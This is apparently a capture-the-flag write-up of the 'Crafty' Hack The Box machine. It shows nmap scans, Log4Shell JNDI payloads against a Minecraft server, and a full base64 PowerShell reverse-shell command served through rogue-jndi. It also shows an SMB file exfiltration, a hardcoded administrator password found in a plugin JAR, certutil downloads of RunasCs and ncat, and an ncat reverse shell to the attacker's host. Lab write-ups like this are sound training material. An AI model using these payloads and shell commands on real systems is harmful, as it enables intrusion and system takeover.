


*Nmap scan*:

```shell
$ cat nmap_allports.txt                                                
# Nmap 7.94SVN scan initiated Mon Feb 26 10:42:46 2024 as: nmap -p- -v -o nmap_allports.txt 10.10.11.249
Nmap scan report for 10.10.11.249
Host is up (0.038s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
25565/tcp open  minecraft
```

```shell
$ cat nmap_servicesversions.txt 
# Nmap 7.94SVN scan initiated Mon Feb 26 10:49:44 2024 as: nmap -p80,25565, -sC -sV -v -o nmap_servicesversions.txt 10.10.11.249
Nmap scan report for 10.10.11.249
Host is up (0.036s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://crafty.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 0/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The webapp on port 80 does a redirect to "crafty.htb" domain; it is added to the hosts file.


On the homepage of the webapp there is a reference to a subdomain, namely "play.crafty.htb". Fuzzing VHOST and web does not bring results. The study of TCP port 25565 is further investigated. Nmap reports that this is a Minecraft server. Possible vulnerabilities are looked for.

Minecraft 1.16.5 seems vulnerable to Log4Shell ([https://shockbyte.com/billing/knowledgebase/471/Minecraft-Java-Log4j-RCE-0-Day-Vulnerability.html](https://shockbyte.com/billing/knowledgebase/471/Minecraft-Java-Log4j-RCE-0-Day-Vulnerability.html)).



We also find a great video by John Hammond about the Log4J vulnerability on Minecraft: [https://www.youtube.com/watch?v=7qoPDq41xhQ](https://www.youtube.com/watch?v=7qoPDq41xhQ)

After many, many attempts, a Minecraft client that provides multiplayer mode has finally been located:  [https://tlauncher.org/en/](https://tlauncher.org/en/).


All that remains is to test a payload to see if the vulnerability is confirmed.

```text
${jndi:ldap://10.10.14.7:80/checkLOG4J}
```


The netcat listener receives the call. Confirmed.


It's time to get a shell. The directions in this repository are followed: [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi).

```shell
$ git clone https://github.com/veracode-research/rogue-jndi.git
Cloning into 'rogue-jndi'...
remote: Enumerating objects: 89, done.
remote: Counting objects: 100% (25/25), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 89 (delta 13), reused 6 (delta 6), pack-reused 64
Receiving objects: 100% (89/89), 27.71 KiB | 20.00 KiB/s, done.
Resolving deltas: 100% (35/35), done.
$ cd rogue-jndi
$ /tmp/apache-maven-3.6.3/bin/mvn package
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[INFO] Scanning for projects...
[INFO] 
[INFO] ------------------------< RogueJndi:RogueJndi >-------------------------
[INFO] Building RogueJndi 1.1
[INFO] --------------------------------[ jar ]---------------------------------
[...]
[INFO] Including com.unboundid:unboundid-ldapsdk:jar:3.1.1 in the shaded jar.
[INFO] Including org.apache.tomcat.embed:tomcat-embed-core:jar:8.5.61 in the shaded jar.
[INFO] Including org.apache.tomcat:tomcat-annotations-api:jar:8.5.61 in the shaded jar.
[INFO] Including org.apache.tomcat.embed:tomcat-embed-el:jar:8.5.45 in the shaded jar.
[INFO] Including com.beust:jcommander:jar:1.78 in the shaded jar.
[INFO] Including org.reflections:reflections:jar:0.9.12 in the shaded jar.
[INFO] Including org.javassist:javassist:jar:3.26.0-GA in the shaded jar.
[INFO] Including org.codehaus.groovy:groovy:jar:2.4.21 in the shaded jar.
[INFO] Including org.apache.commons:commons-text:jar:1.8 in the shaded jar.
[INFO] Including org.apache.commons:commons-lang3:jar:3.9 in the shaded jar.
[INFO] Replacing original artifact with shaded artifact.
[INFO] Replacing /home/kali/Desktop/htb/crafty/files/rogue-jndi/target/RogueJndi-1.1.jar with /home/kali/Desktop/htb/crafty/files/rogue-jndi/target/RogueJndi-1.1-shaded.jar
[INFO] Dependency-reduced POM written at: /home/kali/Desktop/htb/crafty/files/rogue-jndi/dependency-reduced-pom.xml
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  35.909 s
[INFO] Finished at: 2024-02-26T15:52:13+01:00
[INFO] ------------------------------------------------------------------------
$ ls
LICENSE  README.md  dependency-reduced-pom.xml  pom.xml  src  target
$ ls -l target              
total 11684
-rw-r--r-- 1 kali kali 11920110 Feb 26 15:52 RogueJndi-1.1.jar
drwxr-xr-x 4 kali kali     4096 Feb 26 15:52 classes
drwxr-xr-x 3 kali kali     4096 Feb 26 15:51 generated-sources
drwxr-xr-x 2 kali kali     4096 Feb 26 15:52 maven-archiver
drwxr-xr-x 3 kali kali     4096 Feb 26 15:51 maven-status
-rw-r--r-- 1 kali kali    22240 Feb 26 15:52 original-RogueJndi-1.1.jar
```

A Powershell payload is generated that allows a reverse shell to be obtained.

```shell
$ python3 mkpsrevshell.py 10.10.14.7 4444
powershell -e JABjAGwAaQBlAG4AdAAgAD[...]
```

Paylods are generated:

```shell
$ java -jar target/RogueJndi-1.1.jar --command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANwAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA" --hostname "10.10.14.7"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.7:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.7:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.7:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.7:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.7:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.7:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.7:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.7:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
```

A netcat listener on port 4444 is activated and the following payload is inserted between the Minecraft server comments:

```text
${jndi:ldap://10.10.14.7:1389/o=reference}
```



A few seconds are waited.


Everything went perfectly. One has a shell on the machine.


***user.txt***: 59f683e46e8e3e59359cf23e678c655f

Now it's time to privesc.

Among the files in the user's "svc_minecraft" folder, a strange JAR file is identified.

```text
PS C:\users\svc_minecraft\server> Get-ChildItem -Path . -Include *.* -File -Recurse -ErrorAction SilentlyContinue

[...]

    Directory: C:\users\svc_minecraft\server\plugins


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/27/2023   2:48 PM           9996 playercounter-1.0-SNAPSHOT.jar                                        
[...]
```

An SMB server is used, thanks to Impacket suite scripts, to transfer the JAR file to our attacking machine. To configure the SMB server, the procedure is very simple. Attacker side:

```shell
$ python3 examples/smbserver.py -smb2support tmp /tmp -username "admin" -password "admin"
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[...]
```

Victim machine side:

```shell
PS C:\tmp> net use Z: \\10.10.14.7\tmp /user:admin admin
The command completed successfully.
PS C:\tmp> copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.7\tmp\playercounter-1.0-SNAPSHOT.jar
```

We move on to the analysis of the JAR file with jd-gui.

The Rcon.class file contains the definition of the Rcon class. The constructor method of the Rcon class provides a password as an argument.


An object of class Rcon is instantiated in the file Playercounter.class in which a password is hardcoded into the code. The password present is "s67u84zKq8IXw". 


Could this be the password of the Administrator user? It is uploaded of the "RunAsCs" binary and it occurs.

```shell
PS C:\users\svc_minecraft\server> cd C:\tmp
PS C:\tmp> certutil -urlcache -f http://10.10.14.7/RunasCs.exe RunasCs.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\tmp> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"

crafty\administrator
```

All true. All that remains is to get a shell with Administrator user. It uploaded netcat to get a shell. You have activated a netcat listener on port 4444 and run the following command.

```shell
PS C:\tmp> certutil -urlcache -f http://10.10.14.7/ncat.exe ncat.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\tmp> .\RunasCs.exe Administrator s67u84zKq8IXw "C:\tmp\ncat.exe 10.10.14.7 4444 -e cmd.exe" -t 0

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\tmp\ncat.exe 10.10.14.7 4444 -e cmd.exe' with pid 1088 created in background.
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444     
        inet 10.10.14.7  netmask 255.255.254.0  destination 10.10.14.7
        inet6 fe80::7c03:43aa:ab9:87d9  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1005  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.249] 49846
Microsoft Windows [Version 10.0.17763.5328]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
crafty\administrator
```

Simply Administrator.

***root.txt***: a4546c689e259befbed0fc7f1863bfa3


